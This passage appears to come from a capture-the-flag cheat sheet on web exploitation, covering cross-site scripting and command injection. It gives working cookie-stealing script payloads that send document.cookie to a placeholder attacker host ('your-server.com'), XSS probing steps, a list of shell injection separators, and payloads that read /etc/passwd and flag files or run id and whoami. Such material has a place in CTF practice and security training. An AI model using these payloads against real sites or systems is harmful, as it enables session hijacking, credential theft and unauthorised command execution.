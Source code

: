 **Cookie Stealing**:
```html
<script>
fetch('http://your-server.com/?c='+document.cookie)
</script>

<script>
new Image().src='http://your-server.com/?c='+document.cookie
</script>
```

**Use Case Example**:
```
Challenge: Comment section reflects user input
URL: http://ctf.com/comments

Steps:
1. Test basic: <script>alert(1)</script>
2. If filtered, try: <img src=x onerror=alert(1)>
3. Check if cookie accessible: <script>alert(document.cookie)</script>
4. Flag might be in cookie or need to exfiltrate admin session
```

**Reference**: `~/ctf-tools/PayloadsAllTheThings/XSS Injection/`

---

### 💉 Command Injection

**What it is**: Executing system commands through vulnerable inputs

**Common Vulnerable Parameters**:
- `ping`, `nslookup`, `dig`
- File uploads
- System utilities

**Injection Characters**:
```bash
;   # Command separator
|   # Pipe output
||  # OR operator
&   # Background execution
&&  # AND operator
`   # Command substitution
$() # Command substitution
\n  # Newline
```

**Basic Payloads**:
```bash
# Simple command execution
; ls
| ls
|| ls
& ls
&& ls

# Read files
; cat /etc/passwd
| cat flag.txt
; cat /flag.txt

# System info
; uname -a
; id
; whoami
; pwd

```
